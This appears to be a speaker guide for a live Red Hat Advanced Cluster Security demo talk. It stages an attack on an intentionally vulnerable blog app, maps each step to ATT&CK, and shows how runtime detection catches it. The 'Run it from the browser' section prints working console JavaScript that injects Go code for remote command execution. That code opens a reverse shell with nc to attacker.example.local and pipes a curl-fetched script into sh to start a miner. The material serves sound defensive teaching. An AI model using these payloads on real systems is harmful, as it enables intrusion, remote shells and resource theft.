








RHACS - Threat Detection and Response: the talk
40 minutes · 3 intro slides · everything else live in RHACS
Secure today. Maybe not tomorrow. RHACS rescans every running image every 4 hours, so you know the day it changes. But a scan only sees what is known. A scan sees what is known. Runtime sees what happens. RHACS does both.
Audience: teams that think of RHACS (or container security in general) as vulnerability management. The goal is not to dismiss that — it's to show it is the first chapter, and that the product they already own does the rest.
- The full talk, word for word (speaker notes): SCRIPT.md
- One page to memorize: CHEATSHEET.md
- This page: how to speak to the room, run of show, Q&A and checklist. Same content as a web page: TALK.html
- Setup and the demo mechanics: ../README.md
- What every act looks like on screen: WALKTHROUGH.md
Run it from the browser (no terminal)
The attack can be fired straight from the blog itself. Open https://blog-unhackable.apps-crc.testing/write,
press F12 → Console, and paste. The /write textarea only forwards real links (its JavaScript
keeps https?://… and drops everything else), so the attacker goes around it and POSTs to the API —
exactly what a real attacker does. Same code path as demo.sh, same RHACS detections. Each box has a
Copy button — paste it into the console, press Enter.
Step 1 — show what is possible. The bug runs any command. Who am I, and what is in my environment?
const cmd = "id; env";
const rule = `(func() string { c, _ := base64.StdEncoding.DecodeString("${btoa(cmd)}"); out, _ := exec.Command("sh", "-c", string(c)).Output(); return string(out) })()`;
fetch('/api/links/check', {method:'POST', headers:{'Content-Type':'application/json'}, body: JSON.stringify({urls:[rule]})})
.then(r => r.json()).then(d => console.log(d.results[0].detail || d.results[0]));
Step 2 — later, weaponize it. Same bug, now a reverse shell home to the attacker (needs the C2 listener up — scripts/attacker.sh c2, or pane 2 in make live):
const cmd = "nohup nc attacker.example.local 4444 -e /bin/sh >/dev/null 2>&1 & echo '[+] reverse shell launched'";
const rule = `(func() string { c, _ := base64.StdEncoding.DecodeString("${btoa(cmd)}"); out, _ := exec.Command("sh", "-c", string(c)).Output(); return string(out) })()`;
fetch('/api/links/check', {method:'POST', headers:{'Content-Type':'application/json'}, body: JSON.stringify({urls:[rule]})})
.then(r => r.json()).then(d => console.log(d.results[0].detail || d.results[0]));
Swap in const cmd = "curl -s http://attacker.example.local:8080/stage.sh | sh"; for the crypto miner.
How to speak to this room
The people in the room are CISOs, directors and architects. They decide budgets and architecture. They know security very well. They do not need deep technical words. And for many of them, English is a second or third language. So:
- Short sentences. One idea per sentence. Then a pause.
- Repeat the key messages. For people who listen in a second language, repeating is not boring. It helps.
- Say what it means for the business. Not only "the pod was killed". Say "the attacker lost everything, in less than one second".
- No idioms. They do not translate. Use the plain words below.
- Slow down on numbers and names. "Zero. CVEs." "Less than. One. Second."
- Say the step, then run the command. People must know what to look for before it appears on the screen.
- Point at the screen. Show the one line that matters on each RHACS page. Do not read the whole page.
Words to use
| Instead of… | Say… |
|---|---|
| blast radius | the damage |
| lateral movement, pivot | moving to other systems |
| exfiltrate, loot | steal |
| persistence | staying inside |
| C2, command and control | the attacker's computer |
| RCE, remote code execution | running commands from outside |
| process baseline | the normal list of programs |
| network baseline | the normal list of connections |
| drift | a change inside the container |
| enforcement | an automatic action |
| shift-left | checks before deployment |
| fix forward | ship the fix |
| stop the bleeding, crown jewels, game over, cash out | (no idioms — say the plain thing) |
Terms to explain once, the first time you use them
| Term | Say it like this |
|---|---|
| CVE | A known, published vulnerability. It has a number. Scanners look for these numbers. |
| Zero-day | A vulnerability that nobody knows about yet. No number. No patch. A scanner cannot find it. |
| Container / pod | The box the application runs in. Kubernetes can throw it away and start a new, clean one in seconds. |
| Supply-chain attack | The attacker does not attack you. They attack something you use: a library, a build tool, a base image. |
| Honeytoken | A trap. Fake keys that the application never uses. Only an intruder touches them. |
| Baseline | The normal list: the programs an application runs, and who it talks to. Anything outside the list is an alarm. |
| Network policy | A firewall rule for one application: who it may talk to, and nothing else. |
| Policy as code | The security rules are files in Git. They are reviewed and deployed like application code. |
What it means for the business
Say these in the tour and the close. This is what a CISO takes back to the board.
| Question from the board | Answer from the demo |
|---|---|
| How fast do we see an attack? | In seconds. Every step was an alert, with the exact command, user and time. |
| How fast do we stop it? | Automatically. The pod was killed in less than one second, without a person. |
| Do we need to know the attack in advance? | No. RHACS only needs to know what is normal for each application. |
| Are we safe while the fix is not ready? | Yes. The kill and the network policy protect the application until the fix ships. |
| Do we have evidence for the investigation? | Yes. Every alert, every kill, every connection is recorded. |
| Is this a new tool? | No. It is the same RHACS you use for vulnerability scanning — the other four words. |
The arc
- The promise — a release pipeline where every job is green: zero CVEs, every best practice.
- Today and tomorrow — everything checked in the pipeline and at deploy is true only at the moment you checked. New vulnerabilities are disclosed every day, faster than ever, and the window to fix keeps shrinking. RHACS keeps up — it rescans every running image every 4 hours, so new CVEs show up without a rebuild. But a fresh scan still only finds what is known. Zero-days have no CVE yet, misconfiguration isn't on anyone's scanner, and supply-chain attacks plant vulnerabilities that scan clean — and get signed, if your pipeline signs.
- What's watching — something that knows every application: what it's made of, how it's deployed, who it talks to, how it behaves — and acts when that changes.
- The proof — break in live, without a single CVE. Watch RHACS see everything.
- The response — kill to shrink the blast radius now; network enforcement to close the door.
- The fix — fix forward. The scanner was right all along — and saw none of it.
Run of show
| Time | Segment | Screen | Key line |
|---|---|---|---|
| 0:00 | Slide 1 — the pipeline | slide | "Every check happens during build and during deployment. Today is about what happens after." |
| 1:30 | Slide 2 — today and tomorrow | slide | "I scanned it yesterday. It was clean. Is it still clean today?" |
| 3:30 | Slide 3 — what's watching | slide | "Today, I test that. Live." |
| 5:00 | Act 1 — All green | blog, RHACS | "The pipeline was right. So — is it secure?" |
| 8:30 | Act 2 — Day zero | terminal, Violations | "From the code alone, you cannot tell a mistake from a backdoor." |
| 12:00 | Act 3 — Loot | terminal, Violations, Network Graph | "Not one step in the pipeline about who this app may talk to." |
| 17:00 | Act 4 — Persistence & profit | 2 terminals, Violations, Network Graph | "That's an interactive shell, inside your 'secure' app, from outside your cluster." |
| 23:00 | Act 5 — Respond | Policies, terminal, Violations | "The kill stopped this attacker. The NetworkPolicy stops the next one." |
| 29:00 | Act 6 — Fix forward | diff, terminal, image page | "Runtime didn't replace patching. It kept me safe until the patch was ready." |
| 32:00 | Live recap — the tour | RHACS only | "…and this page still says zero." |
| 37:00 | Close | network graph or black | "A scan sees what is known. Runtime sees what happens. RHACS does both." |
| 38:00 | Q&A |
If time runs short: shorten Act 3 (the honeytoken alone is enough). Never cut Act 4 or Act 5 — they're what people retell.
The attack chain — name each move for the audience
The scripts are deliberately quiet: they run the commands and show the output, nothing else. You
narrate. As each command lands, say — in plain words — what the attacker is doing and why it
matters. Every stage below maps to a real ATT&CK tactic and to the exact policy that lights up in the
RHACS feed (pane 3 in make live), so what you say, what they see on the terminal, and what RHACS
flags all line up.
Rule of thumb: say the stage, then run the command. "Now the attacker goes looking for credentials…" (run it) → RHACS fires → "…and RHACS already knows the app never touches that file."
| Act | Stage — say this | ATT&CK tactic | What the attacker does | RHACS flags (pane 3) |
|---|---|---|---|---|
| 2 | Initial access + execution — "they turn a feature into a shell" | Execution (T1059) | The "Check links" rule engine evaluates their input as Go (yaegi, handed exec.Command) — remote code execution. No CVE, my own bug. | TDR - Unauthorized process |
| 3a | Discovery — "first thing in, they look around" | Discovery | List the service-account dir, grep the environment for secrets. Hardening pays off: nothing there. | TDR - Unauthorized process (every command is a new program) |
| 3b | Credential access — "they go hunting for keys" | Credential Access (T1552.001) | They check the obvious spots — ~/.aws/credentials, the app's .env — and find both: honeytokens I planted. The app never reads them, so any command that reads them = intruder. |
TDR - Honeytoken touched |
| 3c | Control-plane recon — "can they reach Kubernetes itself?" | Discovery (T1613) | They probe the in-cluster Kubernetes API (kubernetes.default). No service-account token, so it goes nowhere — but the attempt is the tell. |
TDR - Kubernetes API reconnaissance |
| 3d | Lateral movement — "pivot from the blog to the money" | Lateral Movement | From the public blog they reach payments-api and pull card data. The blog has never talked to payments before. |
TDR - Unexpected network flow to payments-api |
| 4a | Persistence + C2 — "they stop knocking and move in" | Persistence / Command & Control | A reverse shell calls home to the attacker's laptop — a live, interactive shell from outside the cluster. | TDR - Reverse shell tool executed |
| 4b | Impact — "now they get paid" | Impact (T1496, resource hijacking) | They download and run a crypto miner into /tmp (root FS is read-only). |
TDR - Crypto miner, TDR - Container drift |
| 5a | Respond — contain now — "shrink the blast radius" | — | Turn on RHACS Kill Pod enforcement. The attacker's next command kills the pod; Kubernetes replaces it clean in seconds. | enforcement kill (✖ POD KILLED) |
| 5b | Respond — close the door — "stop the next one" | — | Apply a NetworkPolicy: the blog keeps DNS + internet on 80/443 and nothing else. Even an allowed binary can't reach the attacker. | flows blocked |
| 6 | Fix forward — "the real fix, no drama" | — | Ship v2: the rule engine is gone — links are validated natively, nothing is evaluated. Still zero CVEs. | silence — the exploit is gone |
The one-sentence spine: they got in with no CVE (Act 2), looted and pivoted (Act 3), moved in and cashed out (Act 4) — and RHACS saw every move within seconds (the feed), then stopped it two ways (Act 5), before I even shipped the fix (Act 6).
Act by act — on screen
What each beat should look like, so you can match the room to the screen (and recover from
WALKTHROUGH.md if anything breaks live). Full-resolution captures live in
img/.
Slides (0:00 – 5:00)
"Every job green. Zero CVEs. Every check happens during build and during deployment. Today is about what happens after."

Act 1 — All green (5:00)
"The pipeline was right. 0 CVEs, hardened, lowest risk in the cluster. So — is it secure?"




Act 2 — Day zero (8:30)
"One clean dependency (yaegi, 0 CVEs). One evaluated rule. No scanner on earth reports this."



Act 3 — Living off the land: loot (12:00)
"Not one step in the pipeline about who this app may talk to."



The Kubernetes API reconnaissance violation (the control-plane probe, beat 3c) fires here too — it's a recent addition, so there's no capture of it yet; grab one next dry run.
Act 4 — Persistence and profit (17:00)
"That's an interactive shell, inside your 'secure' app, from outside your cluster."





Act 5 — Respond (23:00)
"The kill stopped this attacker. The NetworkPolicy stops the next one before the first packet leaves."




Act 6 — Fix forward (29:00)
"Runtime didn't replace patching. It kept me safe until the patch was ready."



The three slides
| Slide | What's on it | Purpose |
|---|---|---|
| 1 — The pipeline | slides/release.png — a release pipeline run (build, image-scan, policy-check, security-approval, deploy-production), every job green; security approval: approved — all checks passed |
The promise. Note what's missing: no step about network policy. You come back to that in Act 3. |
| 2 — Today and tomorrow | one line: Secure today. Maybe not tomorrow. | RHACS rescans every 4 hours, so you know the day it changes — for what is known. Zero-days, misconfiguration nobody checks and hidden backdoors stay invisible to any scan. |
| 3 — What's watching | Made of → Deployed → Talks to → Behaves → Acts | What RHACS knows, without naming features ("made of" includes where it comes from: registry, signature). Each word pays off in an act. |
The full spoken text for every slide, act, the tour and the close is in SCRIPT.md — written in simple English for audiences that aren't all native speakers.
The three threads
| Thread | Where it shows | Line |
|---|---|---|
| What nobody knows yet — zero-days, unknown vulnerabilities | Act 2: evaluating untrusted input as code has no CVE, no advisory, no signature | "This is a zero-day. My own. The scanner says zero. The scanner is right. And it does not help." |
| What nobody noticed — misconfiguration | Act 3: no NetworkPolicy — and no pipeline step that checks for one — so the public blog can reach payments, the Kubernetes API and the internet | "Nobody decided that. Nobody noticed it." |
| What somebody hid — supply-chain attacks | Slide 2 (the backdoored Claude Code extension, Oct 2026) and Act 2: the injectable line could just as well be a malicious PR or a poisoned dependency | "From the code alone, you cannot tell a mistake from a backdoor. And no scanner can." |
Alongside the threads: know where your components come from — trusted sources and trusted vendors, signed and verified images. That lowers the risk a lot; it doesn't remove it (the backdoored Claude Code extension was the real one, in a trusted store). That is why you also watch behavior.
All three are answered the same way: RHACS watches behavior, so intent doesn't matter — a mistake and a backdoor both have to do something. In Act 5 the kill buys time against the unknown and the planted, and the NetworkPolicy fixes the misconfiguration.
The close
"Keep doing every check, in the pipeline and at deploy. But a pipeline only checks what you know. It cannot see what nobody knows yet. What nobody noticed. Or what somebody hid. … A scan sees what is known. Runtime sees what happens. RHACS does both."
Questions you'll get
Short answers. Say the first sentence, then stop. If they want more, they will ask.
| Question | Answer |
|---|---|
| "Isn't this just a bad developer?" | No. It was a normal shortcut, made under time pressure, and it passed every check. If it was a library with an unknown bug, the result would be the same. You cannot find unknown problems in advance. |
| "We only use trusted vendors and trusted libraries." | Good — please keep doing that. It is one of the best things you can do. But trusted sources lower the risk. They do not remove it. The backdoored Claude Code extension was the real one, in a trusted store. That is why you also watch behavior. |
| "We sign our images and create SBOMs." | Keep doing it. A signature proves who built the image. An SBOM shows what is inside. Neither proves that the code is honest. The SolarWinds backdoor was in a correctly signed update. |
| "How does RHACS catch a supply-chain backdoor?" | By behavior. A backdoor that does nothing is harmless. When it runs a program, writes a file or calls home, that is outside the normal list. It does not matter who wrote the code. |
| "We have a WAF." | Keep it. A WAF may block this request. Maybe not the next one. And it has no rule for a zero-day. RHACS does not care how the attacker got in. It watches what happens inside. |
| "Our images are distroless." | Good, keep doing that. Fewer tools makes the attacker's work harder. But they can bring their own tools — like the miner in the demo. And it does not fix the code, or the network. |
| "We already have EDR on the servers." | Many EDR tools see programs on a machine. RHACS sees them with context: which application, which image, what is normal for it, who it talks to. And it acts in Kubernetes terms: kill the pod, apply a network policy. |
| "Why not have a network policy from day one?" | You should. That is the misconfiguration part of the story. The hard part is knowing what the policy should say. The RHACS network graph shows what each application really talks to. Start there. |
| "Kill Pod will break production." | It kills one pod. Kubernetes starts a new, clean one in a few seconds. And you only turn it on when you know what normal looks like. First alert. Later, act. Like in the demo. |
| "Does the attacker get anything before the kill?" | For less than one second. That is why step two is the network policy. It removes even that. |
| "What can trigger the kill?" | In the demo: a program outside the normal list. The network alert is on the payment service — you do not kill your payment service. You answer it with a network policy. That is why there are two steps. |
| "What if the attacker uses port 443, like normal web traffic?" | Then this network policy lets it through, because the link checker needs the internet. You still see the new destination on the network graph. In production, add an allow-list of destinations — an egress firewall or a proxy. |
| "How long does it take to learn what is normal?" | RHACS learns by watching. You can also declare the normal list yourself, like I did, and lock it on day one. Start with the applications that matter most. |
| "How much work is this for my team?" | The rules are files in Git, reviewed like code. Start with alerts only. Turn on automatic actions where the normal list is stable. |
| "Is this a separate product?" | No. It is part of RHACS. The same console and the same cluster components you already use for vulnerability scanning. |
| "What about false alarms?" | The normal list is per application, so it is very precise. A trap file, like the honeytoken, has almost no false alarms: nobody normal ever touches it. |
Before you walk on stage
The day before
- [ ] Full dry run, all six acts, with the clock
- [ ]
scripts/demo.sh resetworks and leaves no violations - [ ] Slides 1–3 ready.
slides/release.pngis up to date (re-render it if you changedslides/release.html)
One hour before
- [ ] Laptop plugged in (on battery, the CPU slows down and CRC gets slow)
- [ ]
scripts/demo.sh reset→scripts/demo.sh statusshows v1, enforcement[], no network policies, no violations - [ ]
scripts/attacker.sh status→ attacker up, firewallopen-for-crc - [ ] VPN off, or
nordvpn whitelist add subnet 192.168.130.0/24done once - [ ] Projector test: terminal font readable from the last row
Five minutes before
- [ ] Terminal A (large font) in the demo folder. Terminal B ready for
scripts/attacker.sh c2 - [ ] Browser tabs, logged in (
rox-ui): blog/write· RHACS Violations (unhackable) · Network Graph · Vulnerability Management · Risk - [ ]
release.pngfull screen - [ ]
make web-terminalrunning. Opendocs/TALK.html→ ▶ Present on the projector, Speaker view on your laptop screen - [ ] Do not disturb on. Notifications off. Other apps closed
- [ ] Water on the table
- [ ] Backup: WALKTHROUGH.md or TALK.html open in a tab. If anything breaks live, say "Let me show you this morning's run", use the screenshots, and keep going